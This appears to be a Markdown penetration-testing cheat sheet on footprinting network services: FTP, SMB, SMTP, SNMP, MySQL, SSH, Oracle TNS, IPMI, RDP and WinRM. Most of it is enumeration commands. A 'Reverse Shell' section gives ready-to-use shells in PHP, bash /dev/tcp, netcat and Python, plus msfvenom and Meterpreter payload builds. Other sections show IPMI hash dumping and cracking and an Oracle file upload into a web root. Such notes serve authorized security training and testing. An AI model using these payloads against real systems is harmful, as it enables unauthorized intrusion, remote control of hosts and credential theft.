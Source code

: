 # 🕵️ Footprinting

- [🌐 Certificate Transparency + IP Resolution + Shodan](https://developer.mozilla.org/en-US/docs/Web/Security/Certificate_Transparency)  
- [📶 CIDR Discovery Script](https://docs.infoblox.com/space/netmri760/357468470)  
- [📦 FTP](https://ubuntu.com/server/docs/set-up-an-ftp-server)  
- [🧩 SMB](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-smb/f210069c-7086-4dc2-885e-861d837df688)  
- [📧 SMTP](https://www.rfc-editor.org/rfc/rfc5321.html)  
- [📨 IMAP/POP3](https://support.mozilla.org/en-US/kb/difference-between-imap-and-pop3)  
- [📡 SNMP](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol)  
- [🛢️ MySQL](https://dev.mysql.com/doc/refman/8.0/en/)  
- [🐚 Reverse Shell](https://github.com/leebaird/discover)  
- [🔐 SSH](https://www.openssh.com/manual.html) 
- [🧰 Oracle‑TNS](https://docs.oracle.com/en/database/)
- [🖥️ IPMI](https://www.intel.com/content/www/us/en/developer/topic-technology/ipmi/ipmi-intelligence.html)
- [🔗 RDP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rdpbcgr/ed87a0cb-b228-4dcb-b9f9-d7e4f32e9fcd)  
- [🔗 Windows Remote Management Protocols](https://learn.microsoft.com/en-us/powershell/scripting/wnp/overview-of-windows-remote-management)  
- [📘 Next Steps](https://github.com/RafaHdzCh/pentest-notes/blob/main/docs/02-information-gathering.md)

---

<details>
<summary><strong>🌐 Certificate Transparency + IP Resolution + Shodan</strong></summary>

Subdomain discovery via [crt.sh](https://crt.sh), followed by DNS resolution and Shodan fingerprinting.

```bash
# Initialize Shodan
shodan init <APIKEY>

# Extract subdomains from Certificate Transparency logs
curl -s "https://crt.sh/?q=<DOMAIN>&output=json" | jq -r '.[].name_value' | \
awk '{gsub(/\\n/,"\n")}1' | sort -u | grep -v "CN=" > subdomainlist.txt

# Resolve IPs for discovered subdomains
for i in $(cat subdomainlist.txt); do 
  host "$i" | grep "has address" | grep "<DOMAIN>" | cut -d" " -f4 >> ip-addresses.txt
done

# Perform Shodan footprinting
for i in $(cat ip-addresses.txt | sort -u); do 
  shodan host "$i"
done
```

</details>

---

<details>
<summary><strong>📶 CIDR Discovery Script</strong></summary>

**Identify IP ranges and scan for live hosts using a custom script**

### Key steps:
1. Validate input arguments
2. Identify CIDR block for a given IP
3. Ping all IPs in the range
4. Resolve IPs for a target domain
5. Support options and automation

**Script**: [`CIDR.sh`](../scripts/CIDR.sh)

 </details>
 
---

<details>
<summary><strong>📦 FTP</strong></summary>

**Scan FTP service**

```bash
sudo nmap -sV -p21 -sC -A <IP>
```

**Enumerate FTP settings and anonymously download files**

```bash
# Show configuration without comments
cat /etc/vsftpd.conf | grep -v "#"

# View restricted users
cat /etc/ftpusers

# Recursively download available FTP files
wget -m --no-passive ftp://<USER>:<PASSWORD>@<IP>
```

**Service interaction**

```bash
# nc
nc -nv <IP> <PORT>

# telnet
telnet <IP> <PORT>

# openssl
openssl s_client -connect <IP>:<PORT> -starttls ftp
```

 </details>
 
---

<details>
<summary><strong>🧩 SMB</strong></summary>

**Scan SMB service**

```bash
sudo nmap <IP> -sV -sC -p139,445
```

**Analyze shared folders and user access**

```bash
# Check smb.conf (without comments and semicolons)
cat /etc/samba/smb.conf | grep -v "#\|\;"

# Restart Samba after changes
sudo systemctl restart smbd

# List available shares without credentials
smbclient -N -L //<IP>
```

### Tools:
- [`samrdump.py`](../scripts/samrdump.py)
- [SMBMap](https://github.com/ShawnDEvans/smbmap)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Enum4Linux-ng](https://github.com/cddmp/enum4linux-ng)

```bash
# Install Enum4Linux-ng
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
sudo cp enum4linux-ng.py /usr/local/bin/enum4linux-ng
sudo chmod +x /usr/local/bin/enum4linux-ng
enum4linux-ng -h
```

</details>
 
---

<details>
<summary><strong>📧 SMTP</strong></summary>

**Scan SMTP service**
```bash
sudo nmap <IP> -sC -sV -p25

sudo nmap <IP> -p25 --script smtp-open-relay -v
```

**Get configuration file**

```bash
cat /etc/postfix/main.cf | grep -v "#" | sed -r "/^\s*$/d"
```

**Service interaction**

```bash
telnet <IP> <PORT>
```

</details>

---

<details>
<summary><strong>📨 IMAP POP3</strong></summary>


**Scan SMTP service**
```bash
sudo nmap <IP> -sV -p 110,143,993,995 -sC --script pop3-capabilities,imap-capabilities
```

**Service interaction**

```bash
#curl
curl -k 'imaps://<IP>' --user <USER>:<PASSWORD>

#openssl pop3
openssl s_client -connect <IP>:pop3s

#openssl imap
openssl s_client -connect <IP>:imaps
```

</details>

---

<details>
<summary><strong>📡 SNMP</strong></summary>

**Footprinting SMTP service**

```bash
# snmpwalk
snmpwalk -v2c -c public <IP>

# OneSixtyOne
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt <IP>
```

**Get configuration file**

```bash
cat /etc/snmp/snmpd.conf | grep -v "#" | sed -r '/^\s*$/d'
```

</details>

---

<details>
<summary><strong>🛢️ MySQL</strong></summary>


**Scan MySQL service**

```bash
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

**Get configuration file**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**

```bash
# Without a password
mysql -u <USER> -h <IP>

# Using a password
mysql -u <USER> -p<PASSWORD> -h <IP>
```

</details>

---

<details>
<summary><strong>🐚 Reverse Shell</strong></summary>


**PHP**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); ?>
```

**BASH**
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
bash -i >& /dev/udp/<IP>/<PORT> 0>&1
```

**Netcat**
```bash
nc -e /bin/sh <IP> <PORT>
```

**Python**
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Metasploit**
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Meterpreter**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

**Spawn TTY**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash"); import os; os.putenv("TERM", "xterm"); os.system("export SHELL=/bin/bash");'
export TERM=xterm
```

</details>

---

<details>
<summary><strong>🔐 SSH</strong></summary>


**Scan with SSH-Audit**
```bash
git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit
./ssh-audit.py <IP>
```

**Get configuration file**
```bash
cat /etc/ssh/sshd_config  | grep -v "#" | sed -r '/^\s*$/d'
```

**Service interaction**
```bash
ssh <USER>@<ip>

ssh -i id_rsa <USER>@<ip>
```

**Port Forwarding**
```bash
ssh -L <LPORT>:<RHOST>:<RPORT> <USER>@<IP>
```

</details>

---

<details>
<summary><strong>🧰 Oracle TNS</strong></summary>

**Scan TNS service**

```bash
sudo nmap -p1521 -sV <IP> --open

sudo nmap -p1521 -sV <IP> --open --script oracle-sid-brute

```

**Oracle-Tools**

Install Oracle-Tools*

[`Oracle-Tools-setup.sh`](../scripts/Oracle-Tools-setup.sh)

Testing ODAT

```bash
./odat.py all -s <IP>
```

**SQLplus Login**
```bash
sqlplus <USER>/<PASS>@<IP>/XE
sqlplus <USER>/<PASS>@<IP>/XE as sysdba
```

**Fix SQLplus Library Path**
```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
sudo ldconfig
```

**File Upload with Oracle**
```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <IP> -d XE -U user -P password --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

**Download Uploaded File**
```bash
curl -X GET http://<IP>/testing.txt
```

</details>

---

<details>
<summary><strong>🖥️ IPMI</strong></summary>


**Scan with Nmap**
```bash
sudo nmap -sU --script ipmi-version -p 623 <IP>
```

**Scan with Metasploit**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 > set rhosts <IP>
msf6 > show options
msf6 > run
```

**Dump Hashes**
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts <IP>
msf6 > run
```

**Crack IPMI Hashes HP iLO using a factory default password**
```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

</details>

---

<details>
<summary><strong>🔗 RDP</strong></summary>


**Scan with Nmap**
```bash
nmap -sV -sC -n <IP> -p3389 --disable-arp-ping --script rdp*
```

**RDP Security Check**

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
./rdp-sec-check.pl <IP>
```

**Service interaction**
```bash
xfreerdp /u:<USER> /p:"<PASSWORD>" /v:<IP>
```

</details>

---

<details>
<summary><strong>🔗 Windows Remote Management Protocols</strong></summary>

**WinRM**

**Scan with Nmap**
```bash
nmap -sV -sC <IP> -p5985,5986 --disable-arp-ping -n
```

**Service interaction**
```bash
evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```


**Windows Management Instrumentation (WMI)**

**Footprinting the service**
```bash
/usr/share/doc/python3-impacket/examples/wmiexec.py <USER>:"<PASSWORD>"@<IP> "hostname"
```

</details>

---

📘 **Next step:** Continue with [INFORMATION GATHERING](./02-information-gathering.md)
